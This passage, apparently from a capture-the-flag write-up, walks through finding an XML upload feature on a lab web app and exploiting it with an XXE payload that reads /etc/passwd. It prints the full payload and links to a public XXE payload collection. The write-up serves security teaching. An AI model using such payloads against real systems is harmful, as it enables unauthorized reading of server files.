    Invalid XML Example: <post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
    

I created a dummy XML file of the format the server sent:

    
    
    <post>
            <title>0xdf's Post</title>
            <description>A post from 0xdf</description>
            <markdown>
    ## post
    This is a test post.
            </markdown>
    </post>
    

On uploading that, it leads to `/articles/xml`, with what looks like a
submission form already filled in:

![image-20220110090421985](https://0xdfimages.gitlab.io/img/image-20220110090421985.png)

#### XXE

The site is clearly accepting XML and parsing that into the form to display
back to me. This is a classic opportunity for an XML External Entity (XXE)
injection - I’ll see if I can get the XML process to process my input in such
a way that it handles it as code. It’s a similar class of bug to SSTI
(template injection) and even Log4j.

PayloadsAllTheThings has a lot of [example
payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-
xxe-to-retrieve-files) for XXE as well. I’ll grab the first one and try to
read `/etc/passwd`. I can’t just submit it as is though, I have to work from
the template that the site is expecting. I’ll update my XML file to:

    
    
    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ENTITY file SYSTEM "file:///etc/passwd">
    ]>
    <post>
            <title>0xdf's Post</title>
            <description>Read File</description>
            <markdown>&file;</markdown>
    </post>
    
    

This defines the entity `&file;` as the contents of `/etc/passwd`, and then
references it in the markdown field. When I submit this, it works:

![image-20220110123114923](https://0xdfimages.gitlab.io/img/image-20220110123114923.png)
